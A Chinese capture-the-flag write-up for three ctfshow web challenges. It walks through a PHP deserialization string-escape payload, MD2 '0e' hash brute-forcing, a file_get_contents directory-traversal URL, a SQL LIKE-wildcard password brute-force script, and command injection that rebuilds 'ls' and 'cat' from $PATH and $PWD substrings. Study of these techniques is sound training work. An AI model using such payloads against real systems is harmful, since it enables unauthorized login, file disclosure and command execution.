






# web1_此夜圆

***一江春水何年尽，万古清光此夜圆***

## #反序列化字符串逃逸

有附件，下下来看看

```php
<?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
	{
			if($this->password==='yu22x')
			{
				include('flag.php');
				echo $flag;	
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```

看到replace替换就猜到是字符串逃逸了

需要让password为yu22x，但是这里只有uname是可控的，所以uname里的字符串就是需要传入的字符串

字符增多的逃逸

- 需要逃逸的字符


```
";s:8:"password";s:5:"yu22x";}
```

- 那我们的反序列化前的字符串就是

```
O:1:"a":2:{s:5:"uname";s:1:"";s:8:"password";s:5:"yu22x";}";s:8:"password";i:1;}
```

- `";s:8:"password";s:5:"yu22x";}`个数是30

因为传入Firebasky会被替换成Firebaskyup，多出两个字符，那么我们希望多出30个字符把需要逃逸的字符挤出去，那就需要传入15个Firebasky

那最终需要构造出来的字符串就是

```
O:1:"a":2:{s:5:"uname";s:1:"FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}";s:8:"password";s:1:"1";}
```

payload

```
?1=FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```

# web2_故人心

***三五夜中新月色，二千里外故人心***

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$a=$_GET['a'];
$b=$_GET['b'];
$c=$_GET['c'];
$url[1]=$_POST['url'];
if(is_numeric($a) and strlen($a)<7 and $a!=0 and $a**2==0){
    $d = ($b==hash("md2", $b)) && ($c==hash("md2",hash("md2", $c)));
    if($d){
             highlight_file('hint.php');
             if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }else{
                    echo '差点点就成功了！';
                }
            }else{
                echo 'please give me url!!!';
            }     
    }else{
        echo '想一想md5碰撞原理吧?!';
    }
}else{
    echo '第一个都过不了还想要flag呀?!';
}
第一个都过不了还想要flag呀?!
```

先看第一层

## 第一层

```
if(is_numeric($a) and strlen($a)<7 and $a!=0 and $a**2==0)
```

限制了$a必须为数字，长度小于7，不能为0且平方后结果为0四个条件

### #浮点数的下溢变为0

考察浮点数的精度溢出，这里是浮点数的下溢，与溢出相反，若结果过于接近于零，但仍为非零值，会导致下溢，通常会表示为接近零的最小值，或者在某些情况下变为零。

```php
# 浮点数下溢的例子
d = 1e-308
e = 1e-308
f = d * e  # 这里会导致下溢，结果接近于 0
print(f)   # 输出: 0.0
```

传入?a=1e-308就可以了

再看第二层

## 第二层

### #md2碰撞解密

```
$d = ($b==hash("md2", $b)) && ($c==hash("md2",hash("md2", $c)));
if($d)
```

需要$d为非0才能进入if，所以&&两边的条件都需要满足

这里的意思是$b的值经过md2加密后需要和$b原值相等，$c经过两次md2加密后需要和$c原值相等,所以根据强碰撞的原理，一些特殊的数字在hash加密后需要为0e，所以我们需要让$b和$c的值为0e开头的数字

用强碰撞绕过不过去，后来才发现有隐藏目录文件，真的大无语了这种题也会有隐藏文件



访问/robots.txt



```
Is it particularly difficult to break MD2?!
I'll tell you quietly that I saw the payoad of the author.
But the numbers are not clear.have fun~~~~
xxxxx024452    hash("md2",$b)
xxxxxx48399    hash("md2",hash("md2",$b))
```

这里给出了部分数字，那么就可以直接爆破了

```php
<?php
for($i=0;$i<999999999999;$i++){
    $b = hash('md2','0e'.$i.'024452');
    if(substr($b,0,2) == '0e' and is_numeric($b)){
        print('$b =0e'.$i.'024452');
        echo '\n';
        break;
    }
}
for($i=0;$i<999999999999;$i++){
    $c = hash("md2",hash("md2",'0e'.$i.'48399'));
    if(substr($c,0,2) == '0e' and is_numeric($c)){
        print('$c =0e'.$i.'48399');
        break;
    }
}
//&b=0e652024452\n&c=0e603448399
```

传入后显示

```php
<?php 
$flag="flag in /fl0g.txt";
```

接下来我们分析第三层

## 第三层

### #file_get_contents伪协议头

```php
if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }else{
                    echo '差点点就成功了！';
                }
            }else{
                echo 'please give me url!!!';
```

- `filter_var($url[1], FILTER_VALIDATE_URL)`：这行代码用于验证 `$url[1]` 是否是一个有效的 URL。如果 `$url[1]` 是有效的 URL，条件成立，代码块将继续执行。
- `parse_url($url[1])`：如果 URL 验证通过，这一行将解析 URL，并将其拆分为不同的组成部分（如协议、主机名、路径等）。

这里考察了file_get_contents函数的一个小trick：

**当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件**

```php
url=suibian://ctfshow.com/../../../../../../../../fl0g.txt
```

# web3_莫负婵娟

## #密码爆破

## #环境变量构造无字母RCE

***皎洁一年惟此夜，莫教容易负婵娟***



一个登录口，存在过滤，先fuzz一下,发现过滤了单双引号和注释字符等

在源码发现了注释内容

```
<!-- username yu22x -->
<!-- SELECT * FROM users where username like binary('$username') and password like binary('$password')-->
```

username是yu22x，然后对username和password进行了大小写区分，这里发现了like，试着使用模糊匹配去匹配正确的密码但是发现%被过滤了,尝试用反斜杠去逃逸单引号也失败了

后来看到一个思路，是用下划线去匹配单个字符，由此猜测出yu22x用户的password的长度

```py
import requests

url = "http://245ce338-6ff8-40a1-93e9-bb9ac351a0fa.challenge.ctf.show/login.php"

pwd = ""
for i in range(1,100):
    pwd += "_"
    data = {
        "username": "yu22x",
        "password": pwd
    }
    r =  requests.post(url, data=data)
    if 'wrong'  not in r.text:
        print(i)
//32
```

所以密码长度是32位，传入32个`_`后显示I have filtered all the characters. Why can you come in? get out!，应该就是判断成功了，那此时我们也是可以爆破密码的，用字符枚举去填充里面的每个下划线`_`中

```py
import requests

url = "http://245ce338-6ff8-40a1-93e9-bb9ac351a0fa.challenge.ctf.show/login.php"

dict = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
pwd = ""
for i in range(1,100):
    print("i = " + str(i), end = '\t')
    for j in dict:
        password = pwd + j + (32-i) * '_'#一个个去填充
        data = {
            "username": "yu22x",
            "password": password
        }
        r =  requests.post(url, data=data)
        if 'wrong'  not in r.text:
            pwd += j
            print(pwd)
            break
```



密码是67815b0c009ee970fe4014abaa3Fa6A0

传入后跳转至P1099.php



命令执行，但是这里的小写字母全部被过滤了，这让我想到了之前的一个思路，就是利用环境变量去进行拼接，这里的话数字没有过滤，用起来就方便很多了

用$PATH去拼接ls

```
root@dkhkv28T7ijUp1amAVjh:~# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

然后进行构造

```
root@dkhkv28T7ijUp1amAVjh:~# echo ${PATH:5:1}
l
root@dkhkv28T7ijUp1amAVjh:~# echo ${PATH:5:1}${PATH:11:1}
ls
```

那我们的payload就是

```
127.0.0.1;${PATH:5:1}${PATH:11:1}
等价于
127.0.0.1;ls
```



然后拼接cat

```
${PATH:7:2}//ca
```

t怎么来呢？因为web目录的默认路径是/var/www/html，所以我们用${PWD}

```
root@dkhkv28T7ijUp1amAVjh:/var/www/html# echo $PWD
/var/www/html
root@dkhkv28T7ijUp1amAVjh:/var/www/html# echo ${PWD:10:1}
t
```

那我们的payload就是

```
127.0.0.1;${PATH:7:1}${PATH:8:1}${PWD:10:1} ????.???
```

用nl也是可以的

```
127.0.0.1;${PATH:14:1}${PATH:5:1} ????.???
```

但是当时打的时候查看源码看不了，只能抓包看
